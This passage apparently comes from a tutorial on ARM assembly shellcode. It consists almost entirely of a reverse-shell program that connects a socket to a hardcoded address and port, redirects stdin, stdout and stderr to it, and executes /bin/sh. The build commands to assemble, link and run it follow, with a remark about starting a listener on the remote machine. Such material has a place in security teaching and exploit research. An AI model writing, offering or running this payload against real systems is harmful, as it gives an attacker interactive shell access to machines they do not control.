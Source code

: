 ```

    @ save socket
    mov r4, r0

    @ syscall #283 connect(sock, &sa, 16)
    mov r0, r4
    adr r1, _sa
    mov r2, #16
    add r7, #2
    svc #1

    @ syscall #63 dup2(sock, stdin)
    mov r0, r4
    eor r1, r1, r1
    mov r7, #63
    svc #1

    @ dup2(sock, stdout)
    mov r0, r4
    mov r1, #1
    svc #1

    @ dup2(sock, stderr)
    mov r0, r4
    mov r1, #2
    svc #1

    @ syscall #11 execve("/bin/sh", 0, 0)
    adr r0, _string
    eor r1, r1, r1
    eor r2, r2, r2
    mov r7, #11
    svc #1

_sa:
.word 0x5c11ff02
.word 0x0c0aa8c0

_string:
.ascii "/bin/shA"


```

Start the listener on the remote machine and it works just as the C program did.

```
$ as reverse-shell.s -o reverse-shell.o
$ ld -N reverse-shell.o -o reverse-shell
$ ./reverse-shell


```
